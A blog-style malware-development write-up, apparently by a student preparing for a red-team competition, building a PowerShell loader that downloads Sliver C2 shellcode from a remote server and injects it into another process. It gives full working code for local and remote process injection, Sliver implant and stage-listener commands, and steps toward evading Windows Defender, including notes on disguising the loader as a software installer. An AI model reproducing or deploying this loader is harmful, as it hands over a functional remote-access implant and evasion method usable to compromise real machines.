









# Background

This upcoming spring semester me and a few team members are competing in the Information Security Talent Search (ISTS) Competition hosted by the Rochester Institute of Technology. It is a three-day attack and defend competition, where teams compete in a King of the Hill style challenge by hacking and defending against other teams to keep their critical services such as HTTP, SMTP, and SNMP up for points.

The competition rules strictly prohibit the use of any anti-virus applications, but as a red-teamer, that doesn't mean you start being noisy and dropping files to disk. At the end of the day, there's some poor blue-team log bunny on the other end of the terminal picking up on the signatures and heuristics you are creating, itching to boot you off their system.

I didn't participate in ISTS last year, but the previous red-teamers left me a few scripts, one of which was a local process injection to gain a shell through a stage-listener provided by the C2 framework, sliver. (See source below) \[Update: I have learned this script was created by Dominic Breuker in a [blog post](https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/)] 

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
[DllImport("kernel32")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress,
    uint dwSize,
    uint flAllocationType,
    uint flProtect);
[DllImport("kernel32", CharSet=CharSet.Ansi)]
public static extern IntPtr CreateThread(
    IntPtr lpThreadAttributes,
    uint dwStackSize,
    IntPtr lpStartAddress,
    IntPtr lpParameter,
    uint dwCreationFlags,
    IntPtr lpThreadId);
[DllImport("kernel32.dll", SetLastError=true)]
public static extern UInt32 WaitForSingleObject(
    IntPtr hHandle,
    UInt32 dwMilliseconds);
}
"@
Add-Type $Win32

$shellcode = (New-Object System.Net.WebCLient).DownloadData("http://login.magic-box.dev:8080/balls.woff")
if ($shellcode -eq $null) {Exit};
$size = $shellcode.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x1000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $addr, $size)
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

For those reading in hopes of learning malware development, I will break down exactly how this works and what it is doing in the development section of this post, but first lets focus on how we can improve this.

Please bear with me as this is my first malware development project ever. I actually consider myself a really bad coder, but due to that, whenever embarking on new development endeavors I try my best to break it down to the most barebones level, and hopefully, I can do that for you here today.

# Improvement

At a very high level, this script downloads the shellcode, allocates the size of the shellcode to the memory space of the current processes, copies the shellcode to that memory space and executes it as a new thread of the current process. 

In theory, it works, and on a system without AV, or in this case, Windows Defender, you'd get a session that you can interact with. However, in the spirit of being stealthy, this sucks... sorry Josh. 

Why does this suck you may ask? Well, let's say you use a tool such as Procmon to monitor the network traffic generated by your running processes, wouldn't it be suspicious to see a Powershell instance hanging and continuously generating network traffic? Sure, maybe anomalously a Powershell script will reach out to the internet to retrieve something, but continuous network traffic flowing from Powershell is indicative of C2.


*Fig. 1: Powershell process suspiciously beaconing to C2*

It's also worth mentioning that in a real engagement, the second Windows Defender even sniffs that this script is anywhere even close to being executed, your process will be nuked from disk quicker than Japan after Pearl Harbor. 


*Fig. 2: Script signatured by defender*

When checking the script against the no-distribute malware scanner, Kleenscan, it was detected by 7/40 anti-virus engines. Against VirusTotal, 16/61. (Enter spiel about never uploading your malware samples to VirusTotal if they aren't getting flagged by AV, the quickest way to get burnt). But in this case, the sample was already getting flagged by defender, so I wanted to see under what signatures.


*Fig 3: Original script against online malware scanners*

It's also worth mentioning that the shellcode being downloaded is massive. The conversation between the client and C2 amasses over 12,000 packets and 18 megabytes. In a situation where you may be monitored by EDR or SOC, your footprint would be huge and easily detected by rules that monitor for bulk downloads or X amount of packets in Y timeframe.

The raw binary data also contains suspicious API function names and loaded dll's which will cause us to get flagged by defender once it reads the data.


*Fig 4: Binary data analyzed by wireshark*

So, let's recap our issues, and make a list of things to implement in our new loader.
1. Our implant does not blend into the baseline network traffic of a system (continuous network connections from Powershell).
2. Both static and dynamic analysis of the script is heavily detected by AV engines.
3. That binary is massive...

# Development

## Basic Remote Process Injection

Instead of injecting the shellcode into our current process which is likely to be Powershell or cmd, lets inject it into a process that normally and consistently processes network requests, think a web browser, service, etc. 

Let's go back to process monitor and adjust our filters to view all processes making network requests to find a good target.



*Fig 5: Benign processes that make network requests*

Looks like we have a few good targets. Now we have to figure out how we would inject instructions into the memory of one of these processes. Let's use the following diagram as a baseline for us to understand how this works.



*Fig 6: Process Injection Process*

In our first script, our workflow went like this: 

Allocate the size of the shellcode to the current process (Powershell) -> Copy contents of shellcode to memory space -> Execute it as another thread of the process 

We will change it to:

Open the memory space of the process we want to inject into -> Allocate the size of the shellcode to the remote process -> Write the shellcode to the remote process -> Create a remote thread

This requires slightly different WinAPI calls than we used before. For our updated script, we will use OpenProcess, VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread. Working with these API functions can be intimidating if you've never done so, but when you read the Microsoft docs it's not that bad. I'll break down the parameters needed for the functions and how to implement them in the script.

### OpenProcess

The OpenProcess function is defined as such in the WinAPI docs.

``OpenProcess(DWORD dwDesiredAccess,BOOL bInheritHandle, DWORD dwProcessId );`` 

dwDesiredAccess - Essentially what access do we want to the process. The appropriate flag as defined in the docs for full rights is 0x001FFFFF, so we will use that.

bInheritHandle - This a boolean statement that basically asks, do I want any possible child processes to access the contents of the process? To which the answer is no, this widens our footprint and subsequently the ability to get caught, therefore we set this to $false.

dwProcessId - It's exactly what it sounds like, the process ID  which we want to open. The process ID won't be the same every time, so we'll pass this parameter a variable called ($processID) that stores the PID via a command executed at runtime to retrieve it. 

In that case, our script begins to look like this:

```
# Get the target process
$targetProcess = Get-Process -Name cmd | Select-Object -First 1
$processId = $targetProcess.Id

# Open target process
$process = [Win32]::OpenProcess(0x001FFFFF, $false, $processId)
```

Not so bad right?! I thought the same, lets move on.

### VirtualAllocEx

Next we allocate memory to the process using VirtualAllocEx and the size of the shellcode like this.

```
VirtualAllocEx( HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect );
```

hProcess - The process we opened and stored in $process

lpAddress - Allows you to specify the starting address for the region of memory you want to allocate; however, passing a null value allows the system to choose on its own where to allocate it. In that case, we pass \[System.IntPtr\]::Zero which is the Powershell equivalent to NULL as inputting the number zero would be interpreted as an integer.

dwSize - Size of the shellcode you are allocating, which we will have stored in value ($size)

flAllocationType - Essentially asks what type of memory operation are you committing. In this case ,we will be reserving something in virtual memory, which is represented by the flag 0x2000, and committin g it to the physical memory, which is represented by the flag 0x1000. Since we are using two bitwise operators, we will combine them and pass the flag 0x3000.

flProtect - Sets the permissions for the memory space. Similar to the filesystem you can specify read, write, or execute, or any combination of such. We will be reading, writing and executing from this memory space, represented by flag 0x40 in the WinAPI docs.

This gives us:
```
$memAddr = [Win32]::VirtualAllocEx($process, [System.IntPtr]::Zero, $size, 0x3000, 0x40)
```

### WriteProcessMemory 

The WriteProcessMemory function copies data into the memory space we just allocated. Its definition in the WinAPI is:

```
WriteProcessMemory(HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T *lpNumberOfBytesWritten);
```

hProcess - Points to the process we opened and allocated memory to ($process)

lpBaseAddress - The address where we want to write our data, which is the memory address we allocated ($memAddr)

lpBuffer - This is the actual data we would want to write in the address space, which is the contents of the shellcode, which we'll have stored in ($shellcode)

nSize - Size of the shellcode being written ($size)

lpNumberOfBytesWritten - Optional parameter to store how many bytes were written; we can pass IntPtr.Zero since we don't need this, or we can create a variable called ($writtenBytes) initialized as 0 and reference it in the function to update the variable with the number of written bytes.

```
# Write the shellcode to allocated memory
$writtenBytes = [System.UIntPtr]::Zero
[Win32]::WriteProcessMemory($process, $memAddr, $shellcode, $size.ToUInt32(), [ref]$writtenBytes)
```


### CreateRemoteThread

Finally, we create a thread in the target process to execute our shellcode. The CreateRemoteThread function is defined as:

```
CreateRemoteThread(HANDLE hProcess, LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
```

 hProcess - Our process we've allocated and wrote shellcode to that we now want to execute as a remote thread ($process)
 
 lpThreadAttributes -Defines the security attributes for the thread. IntPtr.Zero initializes default settings.
 
 dwStackSize - Size of the stack for the new thread; 0 for default size
 
 lpStartAddress - Address where execution should begin, which is where we allocated them memory to ($memAddr)
 
 lpParameter - Additional parameters for the thread function; \[System.IntPtr\]::Zero since we don't need any.
 
 dwCreationFlags - The flags used to control thread creation. The flag 0 is used for immediate execution, so I'll use that.
 
 lpThreadId -  Optional parameter to store the thread ID; we can pass \[System.IntPtr\]::Zero since we don't need this, or we can create a variable called ($threadId) initialized as 0 and reference it in the function to update the variable with the executed threadID.
 
```
# Execute the shellcode
$threadID = [System.IntPtr]::Zero
[Win32]::CreateRemoteThread($process, [System.IntPtr]::Zero, 0, $memAddr, [System.IntPtr]::Zero, 0, [ref]$threadID)
```
## New Process Injection Script

Now that we analyzed and performed the steps necessary to perform process injection, we get to slap it all together. First, we must recognize that the functions I am using are C# functions and I am using them in Powershell, so I have to define a C# class which imports the necessary functions from the kernel32 DLL file. Additionally, I have to also actually download the shellcode from the sliver stage-listener and store that in a variable. After doing so, I final script looks like this.

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 
{
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr OpenProcess(uint DesiredAcess, bool bInheritHandle, int ProcessID);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr Process, IntPtr StartAddress, UIntPtr shellcodeSize, uint AllocationType, uint MemProtectConstraint);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool WriteProcessMemory(IntPtr Process, IntPtr StartAddr, byte[] Shellcode, uint  shellSize, out UIntPtr BytesWritten);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr CreateRemoteThread(IntPtr Process, IntPtr threadAttrib, uint stackSize, IntPtr shellcodeAddr, IntPtr additonalParams, uint creationFlags, out IntPtr lpThreadId);

}
"@
Add-Type $Win32

# Downlad shellcode from sliver C2 stage listener
$shellcode = (New-Object System.Net.WebClient).DownloadData("http://104.38.66.28:80/balls.woff")
if ($shellcode -eq $null) {Exit};
$size = New-Object System.UIntPtr($shellcode.length)

#retreive process id
$svchostProcess = Get-Process -Name taskhostw | Select-Object -First 1
$IdProcess = $svchostProcess.Id
Write-Output "Injected into process ID: $IdProcess"

#store process using openprocess and processid with full rights
$process = [Win32]::OpenProcess(0x001FFFFF, $false, $IdProcess)	

#Allocate size of shellcode to stored process memory
$memAddr = [Win32]::VirtualAllocEx($process,[System.IntPtr]::Zero, $size, 0x00003000, 0x40)

#Write shellcode to process memory
$writtenBytes = [System.UIntPtr]::Zero
[Win32]::WriteProcessMemory($process, $memAddr, $shellcode, $size.ToUInt32(), [ref]$writtenBytes)

#runs the shellcode alongside process
$threadID = [System.IntPtr]::Zero
[Win32]::CreateRemoteThread($process, [System.IntPtr]::Zero, 0, $memAddr, [System.IntPtr]::Zero, 0, [ref]$threadID)
```

### C2 Provisioning 

Now that we have a piece of code which injects shellcode into a running process, we need to set up the stage-listener the loader retrieves its shellcode from.

Begin by starting your Sliver server, `sudo systemctl start sliver`, and entering your Sliver client via `sliver`.

Now we create a sliver "profile" which is essentially the configuration for the implant we'll serve through the stage-listener. Here, we'll create our profile to point back to our Kali VM as the C2 server, specify Windows as the operating system, and serve the implant as shellcode.

```
All hackers gain indestructible
[*] Server v1.5.39 - 31265c626b84cf70fd0832d653dc94efc6f40eb9 - Dirty
[*] Welcome to the sliver shell, please type 'help' for options

sliver > profiles new beacon -b 192.168.7.130 --os win -f shellcode meow
```

Then we can generate an implant from our profile using `profiles generate <profile name>`, view the configuration of our implant by typing `implants`, and serve the stage listener using `implants stage`.

```
sliver > profiles generate meow

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Build completed in 7s
[*] Implant saved to /home/kali/sliver/COMPLICATED_GYRO.bin

sliver > implants

 Name                       Implant Type              Template   OS/Arch            Format   Command & Control           Debug   C2 Config   ID      Stage 
========================== ========================= ========== =============== =========== =========================== ======= =========== ======= =======
COMPLICATED_GYRO           beacon                    sliver     windows/amd64   SHELLCODE   [1] https://192.168.7.130   true    default     55752   false 

sliver > implants stage

? Select sessions and beacons to expose:  [Use arrows to move, space to select, <right> to all, <left> to none, type to filter]
> [x]  COMPLICATED_GYRO

```

Sweet, now if we curl our IP address, provide any file name with the preconfigured stage-listener extension of `.woff`, and provide the `Template ID` as seen in our configuration when running ` implants` as a URL parameter, we can see the endpoint provides us with a binary. However, simply visiting the IP address, a different extension, or another ID number, you are provided nothing.

```
(kali㉿kali)-[~]
└─$ curl http://192.168.7.130/pwned.woff?x=55752
Warning: Binary output can mess up your terminal. Use "--output -" to tell curl to output it to your terminal anyway, or consider "--output <FILE>" to save 
Warning: to a file.
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.7.130/pwned.woff?x=1    
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.7.130/pwned         
                                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.7.130   
```

The binary output from the endpoint we are sending a web request to in our script is the shellcode provided by the HTTP stage-listener. Let's run the script without defender enabled on our system and look at how our network signature changes in process monitor.

### Testing 



*Fig 7: Successfully injecting into svchost*

As you can see, executing the script through Powershell allows us to get a sliver beacon which generates its network traffic through the svchost process, assimilating itself in what would be considered "baseline" process network activity on the system. 

Yeah, I guess it's a bit suspicious that Powershell still generates so much network traffic at once when downloading the shellcode, but at least it's less suspicious than leaving the Powershell process hanging and beaconing out to an unknown server.

Also, let's say hypothetically, this entire process wasn't created in Powershell but instead, an executable framed as an installer for a legitimate piece of software... in that case the network traffic is almost expected and becomes a lot let suspicious. Combine that with a proper C2 deployment that includes obfuscation techniques such as redirectors and domain fronting then you're basically flying under the radar. We'll keep this in mind for another day.

*To be completely honest, for the sake of the competition, this is where the development of this tool was going to end for me considering AV was prohibited. However, I found myself trying to use the script in red team lab on the platform vulnlab, developed by XCT, which includes EDR Alerts and antivirus and could never get a shell due to being flagged by defender (You should 100% check out [vulnab](https://www.vulnlab.com/) btw, great platform). At that moment this project became less about learning coding and a new payload delivery technique, but defeating antivirus altogether.*

## Beating Defender

In that case, lets take a look at the specific heuristic strings defender flags us on. 



*Fig 8: Signatures defender flags our binary as*

For the sake of time and space, I'll quickly consolidate the two obstacles we must overcome.

If you take a look at [sliver's source code](https://github.com/BishopFox/sliver/blob/master/server/generate/donut.go), they use [donut](https://github.com/TheWover/donut), a position-independent code generator and loader designed to facilitate the in-memory execution of various file format, to implement AMSI bypass into their generated binaries. The AMSI bypass is heavily signatured by AV engines, so once loaded into the process and executed, the injected process gets killed by defender. 

Ignoring the AMSI bypass, we also run into the issue of reverse shells themself being signatured by defender. Therefore, once the shellcode is downloaded and interpreted, it'd be recognized as a reverse shell, and again killed by defender.

How do we beat this?
1. Encrypt our stager and decode it at runtime so any PE data cannot be read by defender or AMSI. (This also solves the issue of binary data being readable over the wire as seen in Fig. 4)
2. Change the sliver source code so it doesn't generate shellcode with AMSI bypass

Back to the drawing board we go.
### Modifying and Building Sliver From Source.

To disable AMSI Bypass whenever generating the stager, we must do the following:
1. Download sliver repository `git clone https://github.com/bishopfox/sliver'
2. Enter the local repository, and modify the donut config
	1. `cd sliver`
	2. `sudo nano server/generate/donut.go`
3. Change the bypass value in the donut config from 3 to 1
```
	config := donut.DonutConfig
	{
		Type:       getDonutType(ext, false),
		InstType:   donut.DONUT_INSTANCE_PIC,
		Parameters: params,
		Class:      className,
		Method:     method,
		Bypass:     3 -> 1,  // 1=skip, 2=abort on fail, 3=continue on fail.
